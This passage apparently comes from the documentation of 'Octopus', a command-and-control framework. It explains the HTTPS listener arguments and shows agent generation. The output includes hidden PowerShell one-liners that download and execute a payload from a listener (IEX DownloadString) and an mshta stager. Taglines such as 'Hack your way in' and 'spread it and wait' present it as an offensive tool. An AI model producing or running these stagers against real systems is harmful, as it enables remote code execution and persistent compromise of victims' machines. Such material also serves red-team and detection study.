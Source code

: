 Octopus >>
```

The `listen_https` command takes the following arguments to start:

  - BindIP   : which is the IP address that will be used by the listener
  - BindPort : which is the port you want to listen on
  - Hostname : will be used to request the payload from
  - Interval : how may seconds that agent will wait before check for commands
  - URL page : name will hold the payload
  - Listener_name : listener name to use
  - certficate_path : path for valid ssl certficate (called fullchain.pem for letsencrypt certficates)
  - key_path        : path for valid key for the ssl cerficate (called key.pem for letsencrypt certficates)

Please note that you need to provide a valid SSL certficate that is associated with the domain used.


### Generate agents

**Powershell oneliner**

To generate an agent for the listener `operation1` we can use the following command:

`generate_powershell operation1`

and we will get the following result:
```
Octopus >>generate_powershell operation1
#====================
1) powershell -w hidden "IEX (New-Object Net.WebClient).DownloadString('http://192.168.178.1:8080/page.php');"

2) powershell -w hidden "Invoke-Expression (New-Object Net.WebClient).DownloadString('http://192.168.178.1:8080/page.php');"

3) powershell -w hidden "$w = (New-Object Net.WebClient).DownloadString('http://192.168.178.1:8080/page.php');Invoke-Expression $w;"

Note - For Windows 7 clients you may need to prefix the payload with "Add-Type -AssemblyName System.Core;"
       e.g. powershell -w hidden "Add-Type -AssemblyName System.Core;IEX (New-Object Net.WebClient).DownloadString('http://192.168.178.1:8080/page.php');"

Hack your way in ;)
#====================

Octopus >>
```

Now we can use this oneliner to start our agent.

**HTA oneliner**

To generate a HTA oneliner for the listener1 `operation1` we can use the following command:

`generate_hta operation1`

and we will get the following results:

```
Octopus >>generate_hta operation1
#====================
mshta http://192.168.178.1:8080/hta
spread it and wait ;)